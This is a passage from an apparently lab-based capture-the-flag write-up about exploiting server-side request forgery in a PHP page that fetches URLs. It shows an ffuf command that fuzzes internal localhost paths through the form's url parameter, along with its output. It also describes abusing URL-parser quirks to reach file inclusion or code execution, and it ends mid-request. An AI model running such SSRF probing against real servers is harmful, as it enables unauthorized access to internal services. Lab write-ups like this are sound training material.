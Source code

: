 We expanded the command and looked for `files` we could access. The only interesting one was the `server-status` page.

```c
┌──(kali㉿kali)-[~]
└─$ ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -u http://10.10.82.230/index.php -X POST -d 'url=http%3A%2F%2Flocalhost%2FFUZZ' -H 'Content-Type: application/x-www-form-urlencoded' --fs 1257,1249

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://10.10.82.230/index.php
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : url=http%3A%2F%2Flocalhost%2FFUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 1257,1249
________________________________________________

javascript              [Status: 200, Size: 1311, Words: 160, Lines: 36, Duration: 263ms]
.                       [Status: 200, Size: 1961, Words: 271, Lines: 54, Duration: 228ms]
server-status           [Status: 200, Size: 57824, Words: 785, Lines: 537, Duration: 255ms]
:: Progress: [38267/38267] :: Job [1/1] :: 185 req/sec :: Duration: [0:03:57] :: Errors: 0 ::
```

## Abusing URL Parser

With `Bushidosan` coming in to clutch out the foothold we looked deeper into `absuing` the `URL parser` to get `Local File Inclusion (LFI)` or `Remote Code Execution (RCE)`. The following resources helped us a lot putting together a payload with added `custom HTTP headers` and to get them back on our `Netcat listener`.

- [https://blog.orange.tw/posts/2017-07-how-i-chained-4-vulnerabilities-on/](https://blog.orange.tw/posts/2017-07-how-i-chained-4-vulnerabilities-on/)
- [https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf)

```c
POST /index.php HTTP/1.1
Host: 10.10.114.88
Content-Length: 48
Cache-Control: max-age=0
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
Origin: http://10.10.114.88
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
```